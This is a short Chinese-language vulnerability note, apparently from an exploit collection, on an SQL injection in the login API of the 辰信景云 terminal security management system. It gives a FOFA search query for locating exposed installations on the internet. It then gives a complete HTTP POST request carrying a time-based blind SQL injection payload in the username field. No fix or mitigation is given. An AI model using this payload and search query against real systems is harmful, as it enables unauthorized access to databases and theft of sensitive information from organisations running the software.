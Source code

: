 # 辰信景云终端安全管理系统login  SQL注入漏洞 

## 1.漏洞描述

辰信景云终端安全管理系统 login 存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 2.搜索语法

```plain
fofa："辰信景云终端安全管理系统" && icon_hash="-429260979"
```

## 3.漏洞复现

```plain
POST /api/user/login HTTP/2
Host: 127.0.0.1
Content-Length: 102
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(5))a)='
```

![image-20240618185509099](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240618185509099.png)
